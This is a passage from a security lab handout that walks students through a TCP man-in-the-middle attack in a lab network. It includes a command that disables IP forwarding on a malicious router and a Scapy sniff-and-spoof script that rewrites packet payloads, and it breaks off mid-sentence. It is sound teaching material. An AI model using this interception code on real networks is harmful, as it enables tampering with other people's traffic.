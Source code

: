 Once the connection is made, you can type messages on the victim machine. Each line of messages will
be put into a TCP packet sent to the destination, which simply displays the message. Your task is to replace
every occurrence of your first name in the message with a sequence of A’s. The length of the sequence
should be the same as that of your first name, or you will mess up the TCP sequence number, and hence the
entire TCP connection. You need to use your real first name, so we know the work is done by you.

**Disabling IP Forwarding.** In the setup, the malicious router’s IP forwarding is enabled, so it does function
like a router and forward packets for others. When we launch the MITM attack, we have to stop forwarding
IP packets; instead, we will intercept the packet, make a change, and send out a new packet. To do that, we
just need to disable the IP forwarding on the malicious router.
```
# sysctl net.ipv4.ip_forward=0
```
**MITM code.** Once the IP forwarding is disabled, our program needs to take over the role of packet for-
warding from the victim to the target, of course after making changes to the packets. Since the packet’s
destination is not for us, the kernel will not give the packet to us; it will simply drops the packet. However,
if our program is a sniffer program, we will get the packet from the kernel. Therefore, we will use the sniff-
and-spoof technique to implement this MITM attack. In the following, we provide a sample sniff-and-spoof
program, which captures TCP packets, makes some changes, before sending them out. You can find the
code from the lab setup files.

```
Listing 1: Sample code:mitmsample.py
#!/usr/bin/env python
from scapy.all import *

def spoof_pkt(pkt):
    newpkt = IP(bytes(pkt[IP]))
    del(newpkt.chksum)
    del(newpkt[TCP].payload)
    del(newpkt[TCP].chksum)


    if pkt[TCP].payload:
        data = pkt[TCP].payload.load
        print("*** %s, length: %d" % (data, len(data)))


        # Replace a pattern
        newdata = data.replace(b’seedlabs’, b’AAAAAAAA’)


        send(newpkt/newdata)
    else:
        send(newpkt)

f = ’tcp’
pkt = sniff(iface=’eth0’, filter=f, prn=spoof_pkt)
```
It should be noted that the code above captures all the TCP packets, including the one generated by the
program itself. That is undesirable, as it will affect the performance. Students needs to change the filter, so
